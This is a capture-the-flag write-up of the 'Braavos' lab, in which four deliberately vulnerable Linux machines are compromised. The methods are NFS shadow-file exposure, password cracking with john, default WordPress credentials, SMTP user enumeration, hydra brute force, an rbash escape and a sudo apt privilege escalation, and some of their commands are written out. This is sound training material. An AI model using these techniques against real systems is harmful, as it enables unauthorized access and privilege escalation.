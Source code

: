 ## Lab Overview :

Braavos is a network of vulnerable Linux servers. Each box suffer from vulnerabilities that could grant you code execution on the system and get you the required flags. You will need to fully enumerate each target, search for attack vectors and bypass restrictions if needed.

- Number of Machines : 4
### Machine 1: Crippled

As always, we started by scanning the ports using `Nmap` :
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac60e7074867ddda75512c2d078a9d40 (RSA)
|   256 e8cfdb6f1989de64ba2b5e75f9956180 (ECDSA)
|_  256 62678301d4cb7b918270b62db05c88fe (ED25519)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      43917/tcp   mountd
|   100005  1,2,3      44757/tcp6  mountd
|   100005  1,2,3      51256/udp6  mountd
|   100005  1,2,3      56953/udp   mountd
|   100021  1,3,4      32933/udp6  nlockmgr
|   100021  1,3,4      36639/tcp   nlockmgr
|   100021  1,3,4      42709/tcp6  nlockmgr
|   100021  1,3,4      60840/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
```
We can see that the NFS port is open, we can check about mount that machine has with 
`showmount` command :

![](./imgs/Pasted%20image%2020230515112417.png)

`/etc` is available to mount with, so we use `mount` and we got `/etc`.

![](./imgs/Pasted%20image%2020230515112825.png)

after a little bit of search, we have two files `shadow.bak` and `passwd.bak` we have a read permission to these files, after `unshadow` those files we can see that we have a user `nagios` and his hash :

![](./imgs/Pasted%20image%2020230515115319.png)

using the default word list of `john` :

![](./imgs/Pasted%20image%2020230515115421.png)

we got our password successfully we can now log in to ssh with `nagios` user.
Using `sudo -l` we  can see that the user have right to execute a script using sudo :

![](./imgs/Pasted%20image%2020230515115905.png)

so our way is to create to empty directories inside `scripts` and create a `setup.sh` script with `/bin/bash` inside it.

![](./imgs/Pasted%20image%2020230515130538.png)

we got the flag successfully.

### Machine 2: Lazy

`nmap` result:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e32c4ef9d55a74c7e371a17f5a7f4901 (RSA)
|   256 0b152b1a1e293e9e3054f07179f9b272 (ECDSA)
|_  256 c7a54596bda59a2f78426357bb62056b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.5.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: staging1 &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We have WordPress running on Apache server, website overview:

![](./imgs/Pasted%20image%2020230515131430.png)

we have a login page: 

![](./imgs/Pasted%20image%2020230515131527.png)

first thing we tried to log in using old school admin admin, and we logged in successfully:

![](./imgs/Pasted%20image%2020230515131750.png)

on plugins page there is one plugin `WPTerm`, Just like a terminal, `WPTerm` lets you do almost everything you want (e.g., changing file permissions, viewing network connections or current processes etc.).
Terminal overview:

![](./imgs/Pasted%20image%2020230515132151.png)

in `/home/uadmin` we can get the private key to log with ssh:

![](./imgs/Pasted%20image%2020230515132627.png)

using `sudo -l` we can see that we have right to run anything with sudo:

![](./imgs/Pasted%20image%2020230515132924.png)

easy `sudo su` and we're in:

![](./imgs/Pasted%20image%2020230515133027.png)

and we got the flag.

### Machine 3: Gate
`nmap` result:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8d342cf56a7269c9b8a82d744a36e380 (RSA)
|   256 eeb71de81b8f2baaf3171941a372bca4 (ECDSA)
|_  256 464b6efe13aeae474c44fc79a4dcf9f8 (ED25519)
25/tcp open  smtp    Postfix smtpd
| ssl-cert: Subject: commonName=ip-192-168-168-188.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-192-168-168-188.eu-west-1.compute.internal
| Not valid before: 2020-10-31T15:49:58
|_Not valid after:  2030-10-29T15:49:58
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: dev01, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
Service Info: Host:  dev01; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
`smtp` Running on port 25 and in allowed command, there is `VRFY` it used to check an email address if it exists, we can use that to enumerate the users.
Using `smtp-user-enum` and `seclist top usernames` word list, we got two users `root` and `adm` :
```bash
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/seclists/Usernames/top-usernames-shortlist.txt
Target count ............. 1
Username count ........... 17
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Mon May 15 13:56:24 2023 #########
10.8.0.4: root exists
10.8.0.4: adm exists
######## Scan completed at Mon May 15 13:56:25 2023 #########
2 results.

17 queries in 1 seconds (17.0 queries / sec)
```
Now we have to brute force the ssh to get the right password for `adm` user.
Using `hydra` we got the password:

![](./imgs/Pasted%20image%2020230515141343.png)

then we have access to the user in `ssh`, after we logged in we found out that the machine uses `rbash` and it restricts us from the normal commands, so we need to bypass it, we can use the following command along ssh to break the jail and bypass the `rbash` by accessing proper bash shell: 
```bash
ssh adm@IP -t "bash --noprofile"
```
By checking `sudo -l` `adm` user can run any command using sudo, we logged to root using `sudo su`, and we got the flag easily.

### Machine 4: Disclosed

`nmap` result:
```bash
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1607635545f12c5932b11c405249775d (RSA)
|   256 b7e769e4551d643a4fd4787dd99a438c (ECDSA)
|_  256 ec4a9697fa867bafb1f76fcee74de690 (ED25519)
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Using `nmap` we can enumerate `ldap` using `ldap-search` script, in result we got some users and their passwords:

![](./imgs/Pasted%20image%2020230515163145.png)

we can crack admmark password using `john` :

![](./imgs/Pasted%20image%2020230515163313.png)

with `sudo -l` we can see that the user allowed to run `apt` using `sudo` :

![](./imgs/Pasted%20image%2020230515163549.png)

we can do a privesc here in `GTFObins` we can see that using
```bash
sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
```

![](./imgs/Pasted%20image%2020230515163934.png)

and we got our flag.